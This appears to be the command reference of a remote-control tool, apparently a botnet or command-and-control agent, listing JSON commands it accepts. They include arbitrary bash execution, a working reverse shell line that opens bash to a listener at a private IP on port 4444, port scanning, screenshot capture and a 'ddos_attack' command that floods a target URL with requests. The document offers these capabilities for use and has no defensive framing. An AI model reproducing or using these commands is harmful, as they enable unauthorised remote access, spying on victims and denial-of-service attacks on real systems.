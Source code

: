 # Command Overview

### 1. **Execute Bash Command**
```json
{
    "command": "execute_bash_command",
    "requirements": [],
    "bash_command": "dir"
}
```

### 2. **Execute Reverse Shell Command**
```json
{
    "command": "execute_bash_command",
    "requirements": [],
    "bash_command": "/bin/bash -i >& /dev/tcp/192.168.129.94/4444 0>&1"
}
```

### 3. **Network Information**
```json
{
    "command": "network_info",
    "requirements": ["psutil"]
}
```

### 4. **Port Scan**
```json
{
    "command": "port_scan",
    "requirements": []
}
```

### 5. **Take Screenshot**
```json
{
    "command": "take_screenshot",
    "requirements": ["Pillow"]
}
```

### 6. **DDoS Attack**
```json
{
    "command": "ddos_attack",
    "target_url": "http://192.168.129.105:8000",
    "request_count": 1000
}
```
